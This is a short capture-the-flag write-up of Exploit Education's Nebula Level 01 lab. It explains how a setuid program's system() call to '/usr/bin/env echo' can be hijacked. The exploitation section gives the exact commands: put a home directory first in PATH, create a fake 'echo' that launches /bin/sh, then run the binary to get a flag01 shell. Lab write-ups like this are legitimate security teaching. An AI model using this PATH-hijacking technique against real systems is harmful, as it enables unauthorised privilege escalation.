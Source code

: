 ```yaml
---
layout: single_c
title:  "Exploit-Education Nebula Level 01"
date:   2019-08-13 10:43:16 +0530
categories: Exploit-Education
tags: Nebula
classes: wide
---
```

### [Exploit Education Level 1](https://exploit.education/nebula/level-01/)

## Challenge

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

## Analysis

lets look at the program permissions first 

```
level01@nebula:/home/flag01$ ls -la
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      80 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01

```
The program `flag0` has the `setuserid` bit set
lets see where the vulnerability is in the program

## Vulnerability 

```
system("/usr/bin/env echo and now what?");
```
We can see that the system look for echo program in the directories mentioned in the environment variable `PATH`

```
level01@nebula:/bin$ env | grep PATH
PATH=/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

level01@nebula:/home/flag01$ which echo
/bin/echo
```
So `echo` from `/bin/` directory is executed. So if we can add another directory before `/bin` in `PATH` 
and write an echo program, we can run any code we want

## Exploitation

Lets add `/home/level01/` to path variable and create an file echo that will execute a shell
```
level01@nebula:/$ PATH=/home/level01:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
level01@nebula:/$ export PATH
level01@nebula:/$ env | grep PATH
PATH=/home/level01:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games

level01@nebula:/$ cd /home/level01
level01@nebula:~$ nano echo
```
Contents of `echo` file 
```
echo "Excecuting Shell"
/bin/sh
```
Lets run `flag01` now
```
level01@nebula:/home/flag01$ ./flag01
Excecuting Shell
sh-4.2$ whoami
flag01
sh-4.2$ getflag
You have successfully executed getflag on a target account
sh-4.2$ which echo
/home/level01/echo
sh-4.2$
```
### Solved!